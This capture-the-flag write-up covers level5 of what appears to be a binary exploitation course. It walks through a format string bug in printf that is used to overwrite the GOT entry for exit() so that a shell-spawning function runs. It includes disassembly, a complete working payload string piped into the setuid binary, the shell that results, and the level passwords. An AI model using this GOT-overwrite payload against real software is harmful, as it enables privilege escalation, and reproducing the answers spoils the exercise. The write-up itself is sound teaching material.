 # Level5 - Format string vulnerability - Code redirection with GOT Overwrite

## Local script usage

```shell
Usage: ./Ressources/main.sh
```

## Passwords and token

|        |                                                                    |
| ------ | ------------------------------------------------------------------ |
| level5 | `0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a` |
| level6 | `d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31` |

## Steps to resolve on VM

Note: We will use `gdb-peda`. You can setup peda with the script: [scripts/installPeda.sh](../../scripts/installPeda.sh)

Execute level5

```shell
./level5
(stdin) abcdef
> abcdef
```

Seems to be like previous levels.

Lets debug the binary

```shell
(gdb) info functions

> (...)
  0x080484a4  o
  0x080484c2  n
  0x08048504  main
  (...)
```

```shell
gdb-peda$ pdisas main
  0x0804850a <+6>:     call   0x80484c2 <n>                     # call n()

gdb-peda$ pdisas o
  0x080484aa <+6>:     mov    DWORD PTR [esp],0x80485f0         # 0x80485f0: "/bin/sh"
  0x080484b1 <+13>:    call   0x80483b0 <system@plt>            # call system("/bin/sh")
  0x080484b6 <+18>:    mov    DWORD PTR [esp],0x1
  0x080484bd <+25>:    call   0x8048390 <_exit@plt>             # call _exit(1)

gdb-peda$ pdisas n
  0x080484cb <+9>:     mov    eax,ds:0x8049848                  # 0x8049848 <stdin@@GLIBC_2.0>
  0x080484d0 <+14>:    mov    DWORD PTR [esp+0x8],eax
  0x080484d4 <+18>:    mov    DWORD PTR [esp+0x4],0x200
  0x080484dc <+26>:    lea    eax,[ebp-0x208]
  0x080484e2 <+32>:    mov    DWORD PTR [esp],eax
  0x080484e5 <+35>:    call   0x80483a0 <fgets@plt>             # call fgets(buf, 0x200, stdin)
  0x080484ea <+40>:    lea    eax,[ebp-0x208]
  0x080484f0 <+46>:    mov    DWORD PTR [esp],eax
  0x080484f3 <+49>:    call   0x8048380 <printf@plt>            # call printf(buf)
  0x080484f8 <+54>:    mov    DWORD PTR [esp],0x1
  0x080484ff <+61>:    call   0x80483d0 <exit@plt>              # call exit(1)
```

We need to call `o`-function that creates a new shell.

n() calls exit(1) at the end of his routine. It means that we never return to main() ! So, what do we do now ? Well, we’ll use a trick called GOT Overwrite.

Basically, when the program is executed, the GOT (Global Offset Table) is initialized for every external functions (like libc functions). By doing so, the executable will cache the memory address in the GOT, so that it doesn’t have to ask libc each time an external function is called.

The goal here will be to overwrite the address of exit() in the GOT with the address of o(). There are 4 steps here :

- Find the address of o()
- Find the address of exit() in GOT
- Find the offset of our string on the stack
- Write the proper exploit string

Let’s find the address of exit() and o()

```shell
# Get exit-syscall address
objdump -R ~/level5 | grep exit
> 08049828 R_386_JUMP_SLOT   _exit
  08049838 R_386_JUMP_SLOT   exit

# Get o-function address
objdump -t ~/level5 | grep -w o
> 080484a4 g     F .text  0000001e              o
```

It means we want to write the value `0x080484a4` at the address of exit: `0x08049838`

We need to know the buffer address.

```bash
gdb-peda$ b *p+54 # just after printf
gdb-peda$ run <<< AAAA
[------------------------------------stack-------------------------------------]
0000| 0xbffff430 --> 0xbffff440 ("AAAA\n")
0004| 0xbffff434 --> 0x200
0008| 0xbffff438 --> 0xb7fd1ac0 --> 0xfbad2088
0012| 0xbffff43c --> 0xb7ff37d0 (<__libc_memalign+16>:  add    ebx,0xb824)
0016| 0xbffff440 ("AAAA\n")
[------------------------------------------------------------------------------]
```

The buffer pointer is 4 addresses before the printf argument.

As `0x080484a4` is a big value, instead of print this value, we will split this integer with two short integers:

- High-order bytes: `0x0804` will be written at `0x08040838 + 2`
- Low-order bytes: `0x84a4` will be written at `0x08040838`

Basically, our format string should be something like:

```
ADDRESS_1 + ADDRESS_2 + %<VALUE_1>x + %4$hn +  %<VALUE_2>x + %5$hn
   _____________________________________|                      |
   |           ________________________________________________|
   |           |
ADDRESS_1 + ADDRESS_2 + %<VALUE_1>x + %4$hn +  %<VALUE_2>x + %5$hn
   |           |            |                       |
0x0804083a 0x08040838  (0x0804 - 8)         (0x84a4 - 0x0804)

=> "\x3a\x98\x04\x08" + "\x38\x98\x04\x08" + "%2044x" + "%4$hn" + "%31904x" + "%5$hn"
```

> \_Note: VALUE_1 has to be greater than VALUE_2. Otherwise, switch addresses

Lets confirm that:

```bash
gdb-peda$ b *n+54 # after printf
> Breakpoint 1 at 0x80484f8

gdb-peda$ run < <(python -c 'print "\x3a\x98\x04\x08" + "\x38\x98\x04\x08" + "%2044x" + "%4$hn" + "%31904x" + "%5$hn"')
[------------------------------------stack-------------------------------------]
0000| 0xbffff420 --> 0xbffff430 --> 0x804983a --> 0x53e00804
0004| 0xbffff424 --> 0x200
0008| 0xbffff428 --> 0xb7fd1ac0 --> 0xfbad2088
0012| 0xbffff42c --> 0xb7ff37d0 (<__libc_memalign+16>:	add    ebx,0xb824)
0016| 0xbffff430 --> 0x804983a --> 0x53e00804                    # <----- %4$hn
0020| 0xbffff434 --> 0x8049838 --> 0x80484a4 (<o>:	push   ebp)  # <----- %5$hn
0024| 0xbffff438 ("%2044x%4$hn%31904x%5$hn\n")
[------------------------------------------------------------------------------]

gdb-peda$ x/x 0x8049838
> 0x8049838 <exit@got.plt>:	0x080484a4 # Perfect ! It contains our address

gdb-peda$ continue
> [New process 27345]
  process 27345 is executing new program: /bin/dash
  (...)
```

We perfectly overwritted the address of exit in the Global Offset Table. The new shell has been created but without setuid.
Let's try without gdb

```shell
python -c 'print "\x3a\x98\x04\x08" + "\x38\x98\x04\x08" + "%2044x" + "%4$hn" + "%31904x" + "%5$hn"' > /tmp/exploit5
cat /tmp/exploit5 - | ~/level5

$ whoami
> level6
$ cat /home/user/level6/.pass
> d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```

---

## Sources

### Format string vulnerability

- [Memory segmentation - Cheat sheet](https://www.0x0ff.info/wp-content/uploads/2015/12/buffer-overflow-memory-segmentation-cheat-sheet.png)
- [Exploit 101 - Format Strings](https://axcheron.github.io/exploit-101-format-strings/)

### Shell

- [Man fgets](https://linux.die.net/man/3/fgets)
- [Man printf](https://linux.die.net/man/3/printf)
- [Man system](https://linux.die.net/man/3/system)
- [Man exit](https://linux.die.net/man/3/exit)
- [Man \_exit](https://linux.die.net/man/2/_exit)
